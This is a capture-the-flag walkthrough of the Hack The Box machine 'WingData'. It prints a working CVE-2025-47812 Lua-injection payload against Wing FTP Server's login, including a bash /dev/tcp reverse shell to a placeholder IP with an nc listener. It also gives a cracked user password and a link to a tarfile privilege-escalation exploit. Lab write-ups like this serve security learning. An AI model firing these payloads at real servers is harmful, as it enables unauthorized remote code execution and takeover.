Welcome to my writeup version of the HTB machine "WingData".

# Enumeration

## NMAP

I start with nmap to see which ports are open and which services are running.



And another one to see more information about each port and service



From the nmap we can see:

- Port 22: An ssh that we'll be looking into later.
- Port 80: HTTP with Apache httpd 2.4.66 which gets redirected to http://wingdata.htb/. So we add it to /etc/hosts.

```
sudo echo "<ip> wingdata.htb" >> /etc/hosts
```

## HTTP

At first we get presented with some information, nothing really interesting.



After a while of going around the page and the source code I couldn't find anything at plain sight. Also looking at the source code I could see that the form had a post function but it wouldn't send it noware.



The only thing that caught my attention was the blue button on top rright, "Client portal". This button sent us to another subdomain(We have to add it to /etc/hosts too so that we can be redirected to it).

### Subdomain

Once added to /etc/hosts, click on the button and then go to the subdomain.

We encounter a login with some information.



The first noteworthy thing on it was the version and service of the page, `Wing FTP Server v7.4.3`.

After a quick search we'll find that this version of the service has got a posible vulnerability, the [CVE-2025-47812](https://nvd.nist.gov/vuln/detail/CVE-2025-47812).

On it I found that, as it is an FTP service, we can log into it with "anonymous"(if enabled) without password, which in this case it was. Here is what I found:




### CVE-2025-47812

So appending a NULL byte to the username followed by any random string doesn’t seem to trigger an authentication failure, which is what you’d expect normally. Instead, it seems to still successfully authenticate the user. Besides the missing error message, the other indicator for a successful authentication is the UID cookie.

Following the PoC, it explains that the "loginok.html" doesn't do much filtering, therefore we should be able to add payloads ithout triggering any error.

Lets try an ```id``` inside the following payload with burpsuite:

```
anonymous%00]]%0dlocal+h+%3d+io.popen("id")%0dlocal+r+%3d+h%3aread("*a")%0dh%3aclose()%0dprint(r)%0d--
```


After reloading the page, even though the page breaks a little, we'll find that it works:


> When returning to the login it seems the page is unfixable, but after going back to the main page it'ññ be jjust fine again.

Lets try a revershell.

Have a terminal listening

```
nc -lvnp 4444
```
Execute the payload on burpsuite:

```
anonymous%00]]%0dlocal+h+%3d+io.popen("bash+-c+'bash+-i+>%26+/dev/tcp/<IP>/4444+0>%261'")%0dlocal+r+%3d+h%3aread("*a")%0dh%3aclose()%0d--
```

And we are in!



# Privilege Escalation

After treating the terminal
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
# ENTER 2 times
export TERM=xterm
stty rows <> cols <>
```
>stty depends on your stty size

we proced with local basic enumeration(perms, files, binaries, etc.)

After a while I found a file on `/opt/wftpserver/Data/1/users/`.

The file `wacky.xml` contained sensible information, the password for wacky user.

Even though its hashed, after a while I discovered how it was hashed and obtained the password.

```
!#7Blushing^*Bride5
```
With `su -l wacky` and the pass, I got into the wacky user and therefore I gained acces to its directoy with the user flag.

## Wacky

With `sudo -l` I found that there is a .py that we can use with root on `/opt/backup_clients/restore_backup_clients.py`.



Another thing to point out is that the '*' there means we can use arguments on it.

After examining the file I found a CVE which related to the behaviour of the file.

## CVE-2025–4517

Te script used pyhton tar exctraction, with [CVE-2025–4517](https://github.com/AzureADTrent/CVE-2025-4517-POC/blob/main/CVE-2025-4517-POC.py) I only needed to save and use the exploit:



